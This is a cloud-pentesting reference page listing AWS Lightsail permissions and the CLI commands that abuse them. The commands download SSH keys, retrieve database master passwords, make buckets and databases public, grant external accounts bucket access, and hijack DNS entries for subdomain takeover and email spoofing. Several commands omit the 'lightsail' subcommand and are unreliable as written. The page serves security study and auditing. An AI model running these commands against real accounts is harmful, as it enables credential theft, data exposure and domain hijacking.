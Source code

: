 # AWS - Lightsail Privesc

## Lightsail

For more information about Lightsail check:

[[../../aws-services/aws-lightsail-enum.md]]

> [!WARNING]
> It’s important to note that Lightsail **doesn’t use IAM roles belonging to the user** but to an AWS managed account, so you can’t abuse this service to privesc. However, **sensitive data** such as code, API keys and database info could be found in this service.

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:

```
aws lightsail download-default-key-pair
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:GetInstanceAccessDetails`

This permission will allow you to generate SSH keys to access the instances:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:CreateBucketAccessKey`

This permission will allow you to get a key to access the bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Potential Impact:** Find sensitive info inside the bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

This permission will allow you to get the credentials to access the database:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:UpdateRelationalDatabase`

This permission will allow you to change the password to access the database:

```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```

If the database isn't public, you could also make it public with this permissions with

```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:OpenInstancePublicPorts`

This permission allow to open ports to the Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:PutInstancePublicPorts`

This permission allow to open ports to the Internet. Note taht the call will close any port opened not specified on it.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:SetResourceAccessForBucket`

This permissions allows to give an instances access to a bucket without any extra credentials

```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateBucket`

With this permission an attacker could grant his own AWS account read access over buckets or even make the buckets public to everyone:

```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateContainerService`

With this permissions an attacker could grant access to private ECRs from the containers service

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Potential Impact:** Get sensitive information from private ECR

### `lightsail:CreateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

### `lightsail:UpdateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

